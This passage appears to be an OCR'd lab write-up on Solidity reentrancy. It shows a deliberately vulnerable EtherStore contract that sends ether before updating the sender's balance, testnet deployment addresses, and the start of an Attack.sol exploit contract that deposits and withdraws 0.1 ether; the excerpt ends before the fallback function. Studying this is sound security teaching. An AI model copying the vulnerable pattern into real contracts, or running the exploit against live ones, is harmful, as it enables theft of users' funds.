     function depositFunds\(\) public payable {  
        balances\[msg.sender\] += msg.value;  
    }

    function withdrawFunds \(uint256 \_weiToWithdraw\) public {  
        require\(balances\[msg.sender\] &gt;= \_weiToWithdraw\);  
        // limit the withdrawal  
        require\(\_weiToWithdraw &lt;= withdrawalLimit\);  
        // limit the time allowed to withdraw  
        require\(now &gt;= lastWithdrawTime\[msg.sender\] + 1 weeks\);  
        require\(msg.sender.call.value\(\_weiToWithdraw\)\(\)\);  
        balances\[msg.sender\] -= \_weiToWithdraw;  
        lastWithdrawTime\[msg.sender\] = now;  
    }  
 }

Note: `withdrawLimit` set to 0.1 ether.

Deployed on Ropsten:  
[https://ropsten.etherscan.io/tx/0x34996d7830b216d93e5ecda9468fe472e485dbdb609884405e7f1b5c74533d39](https://ropsten.etherscan.io/tx/0x34996d7830b216d93e5ecda9468fe472e485dbdb609884405e7f1b5c74533d39)

From \(Metamask\):  
`0x109bb3673f445d8b0d2b04436d7b4a630b873b81`  
To \(contract\):  
`0x52b2a43b59a39f4c863aa86da6c6fe73b33bdc73`

#### Attack.sol

pragma solidity 0.4.18;

contract EtherStore {

        function depositFunds\(\) public payable {}

        function withdrawFunds\(uint256\) public {}

    }

contract Attack {  
    //EtherStore public etherStore;  
    EtherStore public etherStore;

        function Attack\(address \_t\) public {  
        etherStore = EtherStore\(\_t\);  
    }

  function attackEtherStore\(\) public payable {  
      // attack to the nearest ether  
      require\(msg.value &gt;= 0.1 ether\);  
      // send eth to the depositFunds\(\) function  
      etherStore.depositFunds.value\(0.1 ether\)\(\);  
      // start the magic  
      etherStore.withdrawFunds\(0.1 ether\);  
  }
